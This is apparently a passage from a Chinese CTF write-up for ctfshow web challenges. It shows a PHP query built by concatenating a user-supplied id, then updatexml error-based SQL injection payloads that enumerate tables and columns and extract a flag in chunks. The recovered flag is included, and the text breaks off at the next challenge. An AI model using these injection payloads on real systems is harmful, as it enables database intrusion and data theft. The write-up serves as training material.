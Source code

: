 ```
sql语句

  //备份表
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
```

updatexml报错注入

payload

```
/api/?id=' or updatexml(1, concat(0x7e, database(), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select table_name from information_schema.tables where table_schema = database() limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select column_name from information_schema.columns where table_schema = database() and table_name = 'ctfshow_flag' limit 1, 1), 0x7e), 1)%23
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 1, 30) from ctfshow_flag), 0x7e), 1)%23
#ctfshow{89982b11-5c7d-4215-a78
/api/?id=' or updatexml(1, concat(0x7e, (select substr(flag, 31, 30) from ctfshow_flag), 0x7e), 1)%23
#9-a9f8ecc8f1b1}
# 数据长度有限制，可以使用substr来截取


//ctfshow{89982b11-5c7d-4215-a789-a9f8ecc8f1b1}

```



#### web245

```php
sql语句

  
  $sql = "select id,username,pass from ctfshow_user where id = '".$id."' limit 1;";
      
返回逻辑

  //无过滤
  过滤updatexml
```

extractvalue报错注入

payload
